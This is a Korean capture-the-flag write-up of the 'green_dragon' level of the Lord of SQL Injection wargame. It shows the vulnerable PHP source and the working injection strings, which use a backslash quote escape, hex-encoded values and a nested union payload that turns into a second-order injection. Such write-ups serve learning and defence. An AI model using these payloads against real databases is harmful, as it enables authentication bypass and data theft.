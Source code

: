 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - green_dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다시  `los.rubiya.kr`의 서버로 돌아와서 다음 문제를 풀어보았다.  

드디어 `dragon` 시리즈의 시작이다.  

<!--more-->

코드는 다음과 같다.  

```php
<?php
---------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='' and pw=''
---------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

소스코드가 좀 길어졌다.  

쿼리가 2개가 있는데, 첫 번째 쿼리는 내가 입력한 `id`와 `pw`를 가지고 `prob_green_dragon` 테이블에서 값을 뽑아온다.  

그런데 이 후, 해당 테이블에서 추출 한 `id`와 `pw`를 가지고 다시 필터링을 거친 후에, 결과로 나왔던 그 `id`와 `pw`를 가지고 한번 더 쿼리를 수행한다.  

그래서 나온 결과값의 `id`의 값이 `admin`이라면 문제를 풀 수 있다.  

필터링에 `'(싱글쿼터)`가 있기 때문에 먼저 이를 우회해야 한다.  

이 전 문제에서 이와 유사한 문제가 있었기 때문에 아래와 같이 입력 해 필터링 우회를 시도 해 보았다.  

```
?id=\&pw= or id=0x61646d696e#
```

이를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id,pw from prob_green_dragon where id='\' and pw=' or id=0x61646d696e#'
```

때문에 `id`가 `\'and pw`이거나 `id`가 `0x61646d696e`인 값을 데이터베이스에서 찾아 추출하게 된다.  

그런데 아무리 해도 결과 값이 나오지 않았다.  

처음엔 내가 문제를 잘못푼 줄 알았는데, 다시 생각해보니 `$query2`의 존재가 의심스러웠다.  

만약에 내가 했던 방법으로 문제가 풀릴 거라면, `$query`에서 나온 결과값이 바로 데이터베이스에 저장되어 있던 `id`와 `pw`의 값이기 때문에 이에 대해 따로 필터링을 할 필요가 없을 것 같았다.  

또한 그 `id`와 `pw`로 다시 한 번 `select`를 하는 것은 무의미해 보였다.  

그러다보니 이 테이블이 비어있다고 생각하게 되었다.  

테이블에 아무런 값이 없으니 아무리 조건을 넣어도 추출 할 값이 없었던 것이다.  

그래서 두 쿼리를 거친 결과가 `select 'admin'`이 되면 문제를 풀 수 있을 것이라고 생각했다.  

일단 `$query2`를 출력시키기 위해 `id`에는 `\`를, `pw`에는 `union select 1, 2%23`를 입력 해 보았다.  

```
?id=\&pw=union select 1, 2%23
```

그 결과 아래와 같이 두 번째 쿼리가 출력되는 것을 확인할 수 있었다.  

```php
-------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
-------------------------------------------------------------------------------------------------------------

-----------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='1' and pw='2'
-----------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

예상대로 두 번째 쿼리에 1과 2가 들어갔다.  

그럼 이제 `union select 1, 2` 자리에 적당한 값을 넣어서 두 번째 쿼리가 `select admin`을 하도록 만들면 될 것 같다.  

그런데 `$result['id']`와 `$result['pw']`에 대해서도 같은 필터링이 걸려 있으므로 문자열은 사용할 수가 없고, 싱글쿼터를 우회해야 한다.  

그래서 두 번째 쿼리의 `id` 값에는 `\`가 들어가야 한다는 것을 쉽게 알 수 있다.  

이 때, `\`는 문자이기 때문에 `union select \, 2` 형태로 넣을 수 없기 때문에 `\` 또한 hex 값으로 바꾸어 넣어주어야 한다.  

문제는 `$result['pw']` 자리에 들어갈 내용이다.  

내가 만들고 싶은 두 번째 쿼리의 형태는 다음과 같다.  

```
select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#
```

그러면 뒤의 `union select 0x61646d696e`가 되어, 최종적으로 `admin`을 추출할 수 있게 된다.  

그런데 문제는 첫 번째 쿼리에서 뭐라고 입력해야 두 번째 쿼리에 내가 원하는 값을 넣을 수 있느냐는 것이었다.  

서버에서 테스트를 해 보았는데, 아래와 같이 입력하니 결과값을 얻을 수 있었다.  

```
mysql> select id, pw from user where id='\' and pw=' union select 1, (select 2);
+----+----+
| id | pw |
+----+----+
| 1  | 2  |
+----+----+
1 row in set (0.01 sec)
```

이를 그대로 넣으면, 두 번째 쿼리의 `pw` 자리에 `2`가 들어간다.  

그렇다면 `2`를 적절히 수정해서 `union select 0x61646d696e`를 만들면 된다.  

그런데 앞에서 말했다시피 싱글쿼터와 더블쿼터가 필터링 되어 있기 때문에 `hex`로 변경 해서 값을 넣어주어야 한다.  

`union select 0x61646d696e`를 하나하나 hex 값으로 바꾸면 `0x756e696f6e2073656c6563742030783631363436643639366523`이 된다.  

이 값을 아래와 같이 쿼리스트링으로 넘겨주었다.  

```
?id=\&pw= union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)%23
```

역시 내 예상과 맞게 문제를 풀 수 있었다.  

```php
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw=' union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)#'
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#'
-------------------------------------------------------------------------------------------------------------

GREEN_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

`GREEN_DRAGON Clear!`